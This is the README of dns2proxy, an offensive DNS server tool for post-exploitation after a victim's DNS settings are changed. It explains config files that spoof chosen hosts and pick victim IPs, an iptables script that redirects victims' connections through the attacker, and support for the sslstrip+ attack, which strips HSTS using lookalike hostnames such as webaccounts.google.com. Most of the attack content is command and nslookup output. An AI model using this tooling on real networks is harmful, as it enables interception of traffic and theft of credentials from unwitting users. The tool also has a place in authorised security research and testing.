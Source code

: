 # dns2proxy  
 
Offensive DNS server  
  
This tools offer a different features for post-explotation once you change the DNS server to a Victim.
<Referer to help (-h) to new params options>

 
## Installation  
  
dnspython (www.dnspython.com) is needed. 
Tested with Python3.

    $ sudo chmod +x install.sh
    $ sudo ./install.sh
    (venv)$ python dns2proxy.py


## Config files description

domains.cfg (or dominios.cfg): resolve all hosts for the listed domains with the listed IP 
    Ex: 
    .facebook.com 1.2.3.4 
    .fbi.gov 1.2.3.4 

spoof.cfg : Spoof a host with a ip 
    Ex: 
    www.nsa.gov 127.0.0.1 

nospoof.cfg: Send always a legit response when asking for these hosts. 
    Ex. 
    mail.google.com 

nospoofto.cfg: Don't send fake responses to the IPs listed there. 
    Ex: 
    127.0.0.1 
    4.5.6.8 

victims.cfg: If not empty, only send fake responses to these IP addresses.
    Ex: 
    23.66.163.36 
    195.12.226.131   

resolv.conf: DNS server to forward the queries.
    Ex:
    nameserver 8.8.8.8


### Feature 1 
  
Traditional DNS Spoof adding to the response the original IP address.  
  
Using spoof.cfg file:  
  
   hostname ip.ip.ip.ip  
  
    root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg  
      
// launch in another terminal dns2proxy.py  
      
    root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   www.s21sec.com  
    Address: 1.1.1.1  
    Name:   www.s21sec.com  
    Address: 88.84.64.30  
  
  
or you can use domains.cfg file to spoof all host of a same domain:  
  
    root@kali:~/demoBH/dns2proxy# cat dominios.cfg  
    .domain.com 192.168.1.1  
      
    root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   aaaa.domain.com  
    Address: 192.168.1.1  
 
Hostnames at nospoof.cfg will no be spoofed.  
  
### Feature 2  
  
This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.  
Check my slides at BlackHat Asia 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) and the [Demo Video] (http://www.youtube.com/watch?v=cJtbxX1HS5I).    
  
To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!  
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding  
  
Usage: ia.sh < interface > [ip1] [ip2]   
  
  
    root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230  
    Non spoofing imap.gmail.com  
    Non spoofing mail.s21sec.com  
    Non spoofing www.google.com  
    Non spoofing www.apple.com  
    Non spoofing ccgenerals.ms19.gamespy.com  
    Non spoofing master.gamespy.com  
    Non spoofing gpcm.gamespy.com  
    Non spoofing launch.gamespyarcade.com  
    Non spoofing peerchat.gamespy.com  
    Non spoofing gamestats.gamespy.com  
    Specific host spoofing www.s21sec.com with 1.1.1.1  
    Specific domain IP .domain.com with 192.168.1.1  
    binded to UDP port 53.  
    waiting requests.  
    Starting sniffing in (eth0 = 172.16.48.128)....  
  
< at other terminal >  
 
    root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   www.microsoft.com  
    Address: 172.16.48.128  
    Name:   www.microsoft.com  
    Address: 172.16.48.230  
    Name:   www.microsoft.com  
    Address: 65.55.57.27  
  
  
The fhtang.sh script will terminate the program and restore normal iptables.  
  
Hostnames at nospoof.cfg will no be spoofed.  
  
  
### Feature 3
  
Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.  
  
This server is necesary to make the sslstrip+ attack.  
  
    root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   webaccounts.google.com  
    Address: 172.16.48.128  
    Name:   webaccounts.google.com  
    Address: 172.16.48.230  
    Name:   webaccounts.google.com  
    Address: 74.125.200.84  

Another example

    root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like  
    Server:         127.0.0.1                                                     www.yahoo.com  
    Address:        127.0.0.1#53  
      
    Name:   wwww.yahoo.com  
    Address: 172.16.48.128  
    Name:   wwww.yahoo.com  
    Address: 172.16.48.230  
    Name:   wwww.yahoo.com  
    Address: 68.142.243.179  
    Name:   wwww.yahoo.com  
    Address: 68.180.206.184  
